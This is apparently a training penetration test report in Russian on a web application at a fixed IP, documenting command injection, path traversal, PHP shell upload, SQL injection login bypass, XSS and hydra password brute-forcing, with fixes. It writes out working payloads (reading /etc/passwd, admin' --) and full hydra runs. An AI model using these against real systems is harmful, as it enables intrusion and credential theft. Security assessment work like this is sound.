










### Результаты тестирования
#### 1. **Уязвимости Command Injection ([A05:2021-Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/), [A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/))**
**Критичность:** <font color="red">**Высокая**</font>  
**Страница**: `http://92.51.39.106:7788/server.html`  
**Описание**: На странице есть функционал проверки доступности сервера. Сервис проверяет отправляет `ping` запрос из консоли для введенного ip-адреса. При этом пользовательский ввод никак не проверяется. Есть возможность отправить shell-код, который будет выполнен на сервере и результат выполнения будет возвращен в UI.

**Предложения по исправлению**:
- Использовать санитизацию и экранирование пользовательского ввода


Подробности реализации

- Заходим на исследуемую страницу и вводим в поле ввода следующую команду `127.0.0.1 & cat /etc/passwd`, которая объединяет результаты команды `ping` и `cat`. После выполнения команды на сервере будет отображено содержимое файла `/etc/passwd`


- Далее выполняем команду `127.0.0.1 & whoami` для получения текущего пользователя, из под которого работает приложение.


- В ответе сервера получаем, что приложение работает под пользователем `root`, а значит наши права на сервер не ограничены.


#### 2. **Уязвимость [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) ([A01:2021-Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/))**
**Критичность:** <font color="red">**Высокая**</font>  
**Страница**:
- `http://92.51.39.106:7788/read?file=`
- `http://92.51.39.106:7788/static/`

**Описание**: Существует возможность обращения к файловой системе через параметр GET запроса  
**Предложения по исправлению**:
- Валидация значений параметров запросов


Подробности реализации

1. Перейти на страницу `http://92.51.39.106:7788/read?file=../../../../../../etc/passwd`, в ответ сервер отобразит содержимое файла `/etc/passwd`
   
2. Перейти на страницу `http://92.51.39.106:7788/static/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`, в ответ сервер отобразит содержимое файла `/etc/passwd`


#### 3.  Уязвимость    [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload). ([A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/))**
**Критичность:** <font color="red">**Высокая**</font>  
**Страница**: `http://92.51.39.106:7788/index.html`    
**Описание**:Уязвимость позволяет загрузить произвольный файл, отличный от картинки
Существует возможность выполнения следующих действий:
- Загрузить PHP-Shell файл

**Предложения по исправлению**:
- Добавить валидацию входного по типу содержимого. Например, можно использовать сигнатурный анализ файла и сравнивать первые байты файлов с известными сигнатурами. Например, сигнатура для файлов формата JPEG будет выглядеть следующим образом: `FF D8 FF E0`.
- Запускать приложение под пользователем с минимальными правами. Пользователь не должен иметь прав на чтение системных файлов, тем более на их модификацию или удаление.


Подробности реализации

- Переходим на страницу загрузки файла и выбираем специальный [php-shell][php-shell.php](php-shell.php) ` файл.
  

- После загрузки файла открывается страница с сообщением `fileqrizoz.php is uploaded`


- Используем уязвимость сервера, которая позволяет просматривать список файлов сервера и читаем код текущего приложения. На странице `http://92.51.39.106:7788/server.html` используем следующую команду - `127.0.0.1 | cat server.py`. По коду сервера понимаем, что пользовательские файлы попадают в папку `/tmp/`.


- Проверяем наличие нашего файла в директории `/tmp/`. Для этого на той же странице `http://92.51.39.106:7788/server.html` вводим команду `127.0.0.1 | ls /tmp`. Находим имя нашего файла, оно будет без приставки `file`.

- Используем уязвимость `Path Traversal`. Переходим на страницу `http://92.51.39.106:7788/read?file=../../../../../../tmp/qrizoz.php` и видим окно нашего shell-приложения.



#### 4. **Уязвимость [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection) ([A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/))**
**Критичность:** <font color="red">**Высокая**</font>  
**Страница**: `http://92.51.39.106:7788/login.html`  
**Описание**:
- Через форму авторизации пользователей есть возможность внедрить sql скрипт в поле логина.

Существует возможность выполнения следующих действий:
- Добавление, изменение данных в таблицах
- Удаление данных из таблиц
- Нарушение схемы БД

**Предложения по исправлению**:
- Добавить валидацию, санитизацию входных данных с формы

Подробности реализации

1. Перейти на страницу `http://92.51.39.106:7788/login.html` и в форме авторизации в поле логина использовать следующий вектор атаки `admin' --`, а поле пароля любое значение.


2. Запрос выполнился корректно.  
   Мы видим сообщение `Login Success, Hello admin`   

#### 5. **Уязвимость к XSS атакам ([A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/), [Stored XSS](https://owasp.org/www-community/attacks/xss/#stored-xss-attacks))**
**Критичность:** <font color="orange">**Средняя**</font>  
**Страницы**: `http://92.51.39.106:7788/search?q=`  
**Payload**: `#">`
**Описание**: На нескольких страницах происходит добавление пользовательского ввода на страницу без санитизации и экранирования.
Существует возможность выполнения следующих действий:
- Кража сессионной куки
- Перенаправление пользователей на сторонние сайты
- Выполнение XSRF атак на другие сайты в этой страницы

**Предложения по исправлению**:
- Добавить валидацию/санитизацию пользовательского ввода


Подробности реализации

1. Заходим на стартовую страницу `http://92.51.39.106:7788/index.html`, заполняем поисковое поле и нажать кнопку `Enter`  
   Используем при этом полигон для тестирования XSS.

2. Далее мы будем перенаправлены на уязвимую страницу `http://92.51.39.106:7788/search?q=`, где в диалоговом окне увидим идентификатор нашей сессии.


#### 6. **Уязвимость к BruteForce атакам. ([A07:2021-Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/))**
**Критичность:** <font color="orange">**Средняя**</font>  
**Страница**: `http://92.51.39.106:7788/login.html`  
**Описание**: При авторизации в приложении нет ограничений на количество попыток ввода паролей пользователей, что открывает возможность к перебору пароля от известного пользователя или подбору комбинации логина и пароля.    
Существует возможность выполнения следующих действий:
- Подбор пароля методом "грубой силы"

**Предложения по исправлению**:
- Установить ограничение попыток ввода пароля
- Установить ограничение попыток авторизации по IP-адресу


Подробности реализации

Для упрощения задачи используем заданее известный логин пользователя `test`.

```
hydra -l admin -P "/mnt/c/pas/test-pw.txt" -s 7788 92.51.39.106 http-post-form "/login.html:username=admin&password=
^PASS^:F=Login Failed" -f -v
```
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 7788 92.51.39.106 http-post-form "/login.html:username=admin&password=^PASS^:F=Login Failed" -f -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-01 14:27:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://92.51.39.106:7788/login.html:username=admin&password=^PASS^:F=Login Failed
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 2019.00 tries/min, 2019 tries in 00:01h, 14342380 to do in 118:24h, 16 active
[STATUS] 1991.00 tries/min, 5973 tries in 00:03h, 14338426 to do in 120:02h, 16 active
[STATUS] 1969.14 tries/min, 13784 tries in 00:07h, 14330615 to do in 121:18h, 16 active
[7788][http-post-form] host: 92.51.39.106   login: admin   password: admin
[STATUS] attack finished for 92.51.39.106 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-01 14:37:36
```